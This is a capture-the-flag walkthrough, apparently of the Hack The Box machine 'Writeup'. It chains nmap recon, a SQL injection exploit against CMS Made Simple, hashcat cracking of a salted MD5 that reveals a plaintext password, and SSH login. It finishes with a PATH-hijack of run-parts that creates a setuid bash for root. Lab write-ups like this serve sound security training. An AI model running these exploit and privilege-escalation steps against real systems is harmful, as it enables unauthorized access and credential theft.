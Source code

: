 Only port 22 and 80 are open:
```
% nmap -p `cat logs/tcp-simple.nmap | grep open | cut -d/ -f1 | tr "\n" "," | sed "s/,$//"` -sC -sV -Pn -oA logs/nmap-tcpscripts $IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 17:17 AEST
Nmap scan report for 10.10.10.138
Host is up (0.010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds

```

We get a username and the hostname thanks to the email address:
![Pasted_image_20210731171508.png](Pasted_image_20210731171508.png)

```
jkr@writeup.htb
```

We set /etc/hosts in case the virtual hosts are setup. Webpage doesnt change.

We find stuff in robots.txt
![Pasted_image_20210731171725.png](Pasted_image_20210731171725.png)

By curling the page we can see what software the application is using due to comments:
![Pasted_image_20210731172329.png](Pasted_image_20210731172329.png)

Found an exploit which works:
```
% searchsploit cms made simple SQL
[...]
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

Running it returns a salt username and password:
```
% python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7

```

Based on the  exploit we get how the hash is generated:
```
% cat 46635.py | grep md5
        if hashlib.md5(str(salt) + line).hexdigest() == password:
```

Using https://hashcat.net/wiki/doku.php?id=example_hashes we can find the hashcat mode to crack this, aka mode 20.

Running hashcat:
```
# hash.txt:
# 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807

% hashcat -m 20 --force hash.txt /usr/share/wordlists/rockyou.txt                  ~/oscp/notes/htb/writeup/exploits
hashcat (v5.1.0) starting...

[...]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Sat Jul 31 17:39:19 2021 (2 secs)
Time.Estimated...: Sat Jul 31 17:39:21 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1906.8 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4362240/14344385 (30.41%)
Rejected.........: 0/4362240 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> ray061

Started: Sat Jul 31 17:39:07 2021
Stopped: Sat Jul 31 17:39:23 2021
```

We now have a username and password which we can use to login to ssh:
```
% ssh jkr@$IP
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
/usr/bin/xauth:  file /home/jkr/.Xauthority does not exist
jkr@writeup:~$ hostname && ip a && whoami && cat user.txt
writeup
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
jkr
d4e493fd4068afc9eb1aa6a55319f978
```

Ran linpeas and exploit suggester however nothing much was returned. No valid passwords found. Found a hash in `/etc/apache2/passwords` however couldn't crack it.

The path is weird and has `/usr/local/bin` at the start which suggests that we need to abuse the path hijacking:
```
% echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Running pspy we can see that the application runs a command on ssh login:
_Note: If you have an ssh client config which allows session reuse, then you probably will have to wait for someone else to connect to the box to be able to see it._
```
2021/07/31 05:05:48 CMD: UID=1000 PID=6145   | -bash
2021/07/31 05:05:51 CMD: UID=0    PID=6146   | sshd: [accepted]
2021/07/31 05:05:51 CMD: UID=102  PID=6147   | sshd: [net]
2021/07/31 05:05:56 CMD: UID=0    PID=6148   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=0    PID=6149   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2021/07/31 05:05:56 CMD: UID=0    PID=6150   | run-parts --lsbsysinit /etc/update-motd.d
2021/07/31 05:05:56 CMD: UID=0    PID=6151   | /bin/sh /etc/update-motd.d/10-uname
2021/07/31 05:05:56 CMD: UID=0    PID=6152   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=1000 PID=6153   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6154   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6155   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6156   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6157   | -bash
2021/07/31 05:06:00 CMD: UID=1000 PID=6158   | -bash
2021/07/31 05:06:01 CMD: UID=0    PID=6159   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6160   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6161   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

The following command is vulnerable due to setting the path to a location we can write to and then running a comand without an absolute path. Hence, we can perform path hijacking:
```
% sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

We have write access to `/usr/local/sbin` since we're part of the staff group:
```
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ ls -dal /usr/local/bin
drwx-wsr-x 2 root staff 20480 Jul 31 05:04 /usr/local/bin

```

Now we can write our exploit to hijack the `run-parts` command.

We write our exploit shellscript which will copy `/bin/bash` to `/tmp` and setuid on it:
```
jkr@writeup:~$ echo '#!/bin/bash' > asdf.sh
jkr@writeup:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' >> asdf.sh
jkr@writeup:~$ chmod +x asdf.sh
jkr@writeup:~$ cp asdf.sh /usr/local/sbin/run-parts
```
	
We just need to login again to trigger the exploit:
```
% ssh jkr@$IP
jkr@10.10.10.138's password:

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 31 05:09:56 2021 from 10.10.14.23
jkr@writeup:~$ ls
asdf.sh  CRON  user.txt
jkr@writeup:~$ ls /tmp/
bash  enum  lol.txt  ssh-bswiDlYM8A  ssh-ft19Qjjwpg  vmware-root  vmware-root_1453-3980363984
jkr@writeup:~$ /tmp/bash -p
bash-4.4# whoami && ip a && hostname && cat /root/
.bash_history  .bashrc        bin/           .nano/         .profile       root.txt
bash-4.4# whoami && ip a && hostname && cat /root/root.txt
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
writeup
eeba47f60b48ef92b734f9b6198d7226
```
